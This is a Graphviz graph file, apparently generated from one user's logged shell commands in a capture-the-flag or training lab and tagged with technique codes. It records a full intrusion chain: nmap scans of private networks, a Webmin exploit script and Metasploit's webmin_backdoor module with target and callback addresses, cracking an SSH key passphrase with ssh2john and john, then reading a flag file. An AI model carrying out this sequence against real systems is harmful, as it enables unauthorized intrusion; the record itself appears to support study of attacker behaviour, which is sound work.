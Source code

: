 // creating graph for user: 70
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 -p 10000 M0 "]
	2 [label="J8 cd Downloads/ U"]
	3 [label="ls A10 "]
	4 [label="cd Downloads/ U"]
	5 [label="ls A10 "]
	6 [label="sh 47293.sh 172.18.1.5:10000 U"]
	7 [label="bash 47293.sh 172.18.1.5:10000 U"]
	8 [label="nano utok.sh U"]
	9 [label="sh utok.sh 172.18.1.5:10000 U"]
	10 [label="nano utok.sh U"]
	11 [label="msfconsole M2 "]
	12 [label="exit U"]
	13 [label="msfconsole M2 "]
	14 [label="use unix/webapp/webmin_backdoor M4 "]
	15 [label="help U"]
	16 [label="show options M5 "]
	17 [label="set RHOSTS 172.18.1.5 M6 "]
	18 [label="exploit M8 "]
	19 [label="ip a U"]
	20 [label="set LHOST 192.168.131.85 M6 "]
	21 [label="exploit M8 "]
	22 [label="exit U"]
	23 [label="quit U"]
	24 [label="exit -y U"]
	25 [label="clear U"]
	26 [label="namp 172.18.1.1/24 U"]
	27 [label="nmap 172.18.1.1/24 A0 A1 "]
	28 [label="nmap 10.0.1.1/24 A0 A1 "]
	29 [label="nmap 10.1.0.1/24 A0 A1 "]
	30 [label="nmap 100.100.100.1/24 A0 A1 "]
	31 [label="msfconsole M2 "]
	32 [label="use unix/webapp/webmin_backdoor M4 "]
	33 [label="set LHOST 192.168.131.85 M6 "]
	34 [label="nmap 172.168.1.1/24 A0 A1 "]
	35 [label="nmap 172.18.1.1/24 A0 A1 "]
	36 [label="set RHOSTS 172.18.1.5 M6 "]
	37 [label="nmap 10.1.0.1/24 A0 A1 "]
	38 [label="exploit M8 "]
	39 [label="show options M5 "]
	40 [label="curl 172.18.1.5:10000 U"]
	41 [label="exploit M8 "]
	42 [label="clear U"]
	43 [label="nmap 10.1.17.4 A0 A1 "]
	44 [label="nano key.txt U"]
	45 [label="chmod 600 key.txt M15 "]
	46 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	47 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	48 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	49 [label="ls A10 "]
	50 [label="./ssh2john.py A14 A16 "]
	51 [label="./ssh2john.py key.txt A14 A16 "]
	52 [label="./ssh2john.py key.txt > sshjohn.txt A14 A16 "]
	53 [label="ls A10 "]
	54 [label="man john A14 "]
	55 [label="john --single sshjohn.txt A14 A16 "]
	56 [label="john --show sshjohn.txt A5 A14 A16 "]
	57 [label="john --single sshjohn.txt A14 A16 "]
	58 [label="john --show sshjohn.txt A5 A14 A16 "]
	59 [label="john -i sshjohn.txt M16 "]
	60 [label="john --incremental sshjohn.txt M16 "]
	61 [label="ls A10 "]
	62 [label="gunzip /usr/share/wordlists/rockyou.txt.gz U"]
	63 [label="clear U"]
	64 [label="john --wordlist /usr/share/wordlists/rockyou.txt sshjohn.txt M14 "]
	65 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	66 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	67 [label="ls A10 "]
	68 [label="cd top-secret/ U"]
	69 [label="ls A10 "]
	70 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	rankdir=LR
}

